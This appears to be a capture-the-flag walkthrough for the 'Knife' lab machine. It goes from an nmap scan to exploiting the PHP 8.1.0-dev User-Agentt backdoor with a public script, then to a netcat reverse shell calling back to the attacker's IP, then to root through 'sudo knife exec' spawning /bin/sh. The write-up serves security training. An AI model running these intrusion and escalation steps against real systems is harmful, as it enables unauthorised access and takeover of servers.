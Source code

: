 # Knife      

![Knife](./Screenshots/)

## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/knifenmap.png)

Here are the descriptions of the open ports shown in the screenshots:

### **22/tcp (SSH)**
The **SSH** service is running **OpenSSH 8.2p1** on **Ubuntu**. This service enables secure remote access and uses **protocol version 2.0**. The scan reveals the server’s SSH host keys, including **RSA (3072-bit)**, **ECDSA (256-bit)**, and **ED25519 (256-bit)**, which are used for encryption and server authentication. The presence of these keys provides an indication of the security configuration for SSH on this system.

### **80/tcp (HTTP)**
The web server running on this port is **Apache httpd 2.4.41** on **Ubuntu**. It supports HTTP methods **GET**, **HEAD**, **POST**, and **OPTIONS**, which allow for a range of client interactions. The HTTP title returned is **Emergent Medical Idea**. Additionally, the **Apache/2.4.41 (Ubuntu)** server header confirms the server type and version, which could be useful in determining any specific vulnerabilities associated with this version.

When I saw that http is open, I pasted `http://{target ip}` into the browser.

![web](./Screenshots/knifeweb.png)

As the site is very limited and you can't navigate through it, I decided to use **Gobuster** to search for subdomains but I did not find anything. 

### cURL + Wappalyzer

I decided to look around. I've checked page source but nothing interesting was there. The most useful thing turned out to be **Wappalyzer** extension.

![cURL](./Screenshots/knifecurl.png)

This led me to read about PHP 8.1.0 but again - I did not find anything that could help me further.

So I typed:

```
curl -I http://{target ip}/
```

![cURL](./Screenshots/knifecurl2.png)

I pasted **PHP/8.1.0-dev** into Google and found an interesting article:

```
https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
```

Long story short:

The article discusses a **backdoor** present in **PHP version 8.1.0-dev**, allowing **remote code execution (RCE)**. This **backdoor** was introduced into the PHP source code by an unauthorized individual, posing a severe security threat to servers running this version of PHP. The **backdoor** is embedded through a simple `user_agent` function call, which accepts code as a parameter and executes it. In practice, this means anyone who calls this code using the appropriate `User-Agent` header can run arbitrary commands on the server.

An attacker could send a specially crafted HTTP request with the `User-Agentt` parameter containing a command they want to execute on the server. This command is then interpreted and executed by PHP without any additional authorization, granting full access to the system. This kind of vulnerability in PHP is highly risky, as it allows intrusion and remote control over the server. The recommended solution is to update PHP to a version that does not contain this backdoor. The article cautions administrators against deploying experimental software versions in production environments. Exploiting this vulnerability may also be challenging to detect, as the attack leaves no obvious traces in the server logs.

I quickly found the exploit to it:

```
https://www.exploit-db.com/exploits/49933
```

```
https://github.com/flast101/php-8.1.0-dev-backdoor-rce
```

### Exploitation

Let's use this `exploit`.

Type in order:

```
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
```

```
cd php-8.1.0-dev-backdoor-rce
```

Let's use **backdoor** script.

```
python3 backdoor_php_8.1.0-dev.py
```

Provide `http://{target ip}/` when it asks you to enter the host url.

![Exploitation](./Screenshots/knifeexploit.png)

We have a `shell`. Perfect.

### Get the user flag

The `user` flag is in the `/home/james` path.

![flag](./Screenshots/knifeuserflag.png)

### Privilege escalation

Since the current shell provides limited options for navigating the system and I couldn't find a way to stabilize it, I decided to simply use a reverse shell script (**revshell_php_8.1.0-dev.py**) to make it easier for me to find an idea to escalate privileges.

![PE](./Screenshots/knifepe.png)

### Netcat

First of all, let's set up a **Netcat** listener.

```
nc -lvnp {any port you want}
```

![PE](./Screenshots/knifepe2.png)

Now in the tab with exploit type:

```
python3 revshell_php_8.1.0-dev.py http://{target ip}/ {your tun0 ip} {port you have chosen}
```

and press `Enter`.

![PE](./Screenshots/knifepe3.png)


In you **Netcat** tab you shuld have a shell.

![PE](./Screenshots/knifepe4.png)

It is more stabilized than previous one, excellent.

![PE](./Screenshots/knifepe5.png)

We can see .ssh directory. We could use `james`'s OPENSSH private key to have even better shell by logging through **SSH** but it isn't necessary.

![PE](./Screenshots/knifepe6.png)

Now, we could transfer **LINpeas.sh** script via simple Python3 http server form our local machine to the target machine and run it but I found something interesting and finally this gave me the `root`'s flag.

When I want to escalate privileges I almost always hit:

```
sudo -l
```

command.

This time it was very useful again.

![PE](./Screenshots/knifepe7.png)

The user `james` can run the command `/usr/bin/knife` with root privileges without needing to enter a password (NOPASSWD).

As challenge name is **Knife** I assume that this is fair path to explore.

We could probably edit the `knife` file with some interesting payload and then run it but in cases like this I always like to check **GTFOBins** binaries.

![PE](./Screenshots/knifepe8.png)

I found this. Let's use it.

Let's move to the `/usr/bin` directory first:

```
cd /usr/bin
```

and when we are in the right path, let's type:

```
sudo knife exec -E 'exec "/bin/sh"'
```

![PE](./Screenshots/knifepe9.png)

We are `root` :)

### Get the root flag

`Root` flag is in the `/root` directory.

![flag](./Screenshots/kniferootflag.png)

### Paste the flags

![pwned](./Screenshots/)